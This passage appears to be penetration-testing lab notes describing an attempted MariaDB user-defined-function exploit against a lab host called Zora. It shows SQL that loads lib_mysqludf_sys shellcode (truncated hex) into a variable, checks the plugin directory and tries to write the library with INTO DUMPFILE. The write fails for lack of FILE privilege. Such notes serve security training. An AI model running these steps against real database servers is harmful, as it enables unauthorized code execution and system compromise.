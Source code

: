 - We have everything that we need to attempt to exploit Zora. 

- Now we just need to put it together.Before we begin running the malicious SQL commands, we will create a variable in MariaDB for the shellcode. 

- The contents of this variable are obtained from the lib\_mysqludf\_sys.so.hex file.

```sql
MariaDB [(none)]> set @shell = 0x7f454c4602010100000000000000000003003e000100000000110
000000000004000000000000000e03b0000000000000000000040003800090040001c001b0001000000040
00000000000...00000000000000000000;
```

   - Note the **addition of “0x” to the beginning of the shellcode and the lack of single or double quotes**.
   
   - This is necessary for MariaDB to read the text as binary.
   
   -   Next, per the exploit instructions, we will confirm the location of the plugin directory.
	
```sql
MariaDB [(none)]> select @@plugin_dir;
+-------------------+
| @@plugin_dir |
+-------------------+
| /home/dev/plugin/ |
+-------------------+
1 row in set (0.072 sec)
```

  - As expected, the plugin directory is in **/home/dev/plugin/.**
  
  -   Next, we need to output the shellcode to a file on Zora. 
     
  -   The original exploit generates a random filename for this, but we can name it whatever we want. 
  
  -   The command in Listing 919 tells MariaDB to treat the contents of the **@shellvariable as binary and to output it to the /home/dev/plugin/udf\_sys\_exec.so file.**
	
```sql
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so
';
ERROR 1045 (28000): Access denied for user 'wp'@'%' (using password: YES)
MariaDB [(none)]>
```

  - Unfortunately, this is where we encounter our first problem. 
  
  - According to the error message above,the wp user does not have permissions to create files.

##  Why We Failed

- While the user does have permissions to run SELECT, INSERT, UPDATE, and DELETE, the wp user is missing the FILE permissions to be allowed to run dumpfile. 

 - **To run dumpfile we need a user account with a higher level of permissions, such as the root user**. 
 
 - Without this, **we are stuck and cannot move forward with exploiting Zora using the current approach**. 
 